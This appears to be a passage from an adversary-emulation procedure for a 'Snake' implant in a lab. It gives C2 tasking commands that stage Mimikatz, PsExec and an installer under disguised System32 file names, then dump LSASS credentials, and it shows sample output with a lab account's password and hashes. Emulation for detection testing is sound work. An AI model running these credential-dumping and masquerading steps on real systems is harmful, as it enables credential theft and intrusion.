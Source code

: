 * From the Kali C2 server lower terminal window, task Snake to download Mimikatz to the file server:

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 4, "file": "mimikatz.exe", "dest": "C:\\Windows\\System32\\loadperf.exe"}'
```

* Wait 1 minute and then instruct Snake to download PsExec to the file server:

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 4, "file": "PsExec.exe", "dest": "C:\\Windows\\System32\\fs_mgr.exe"}'
```

* Wait 1 minute and then run the following command to download the snake installer:

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 4, "file": "installer_v3.exe", "dest":"C:\\Windows\\System32\\cmu_svc.exe"}'
```

* Wait 1 minute and then instruct Snake to run Mimikatz to dump all NTLM hashes from `LSASS.exe`:

```bash
./evalsC2client.py --set-task 5054474d50435a51404b '{"type": 3, "proc": "C:\\Windows\\System32\\loadperf.exe", "args": "\"pr::d\" \"slsa::lop\" \"quit\""}'
```

* :heavy_exclamation_mark: Verify that the password `Producer2!` and NTLM hash
`f3fcd61f987a97da49ce5f650b4e6539` for `ZilvinasAdmin` appears at least once in
the output.

```bash
grep '* Username : ZilvinasAdmin' logs.txt -C 5 -i
```

* This should return:
>
* > ```text
    >     * Username : ZilvinasAdmin
    >     * Domain   : NK
    >     * NTLM     : f3fcd61f987a97da49ce5f650b4e6539
    >     * SHA1     : fc8c801521140666c793108b67716caf4c4189f4
    >     * DPAPI    : b06d7bea8849897b811e1d73ab22726c
    >     tsPkG : 
    > --
    >     * Username : ZilvinasAdmin
    >     * Domain   : NK
    >     * Password : Producer2!
    >     kErberoS : 
    >     * Username : ZilvinasAdmin
    >     * Domain   : NK.LOCAL
    >     * Password : (null)
    >     sSp : 
    >     crEdMan :
    > ```
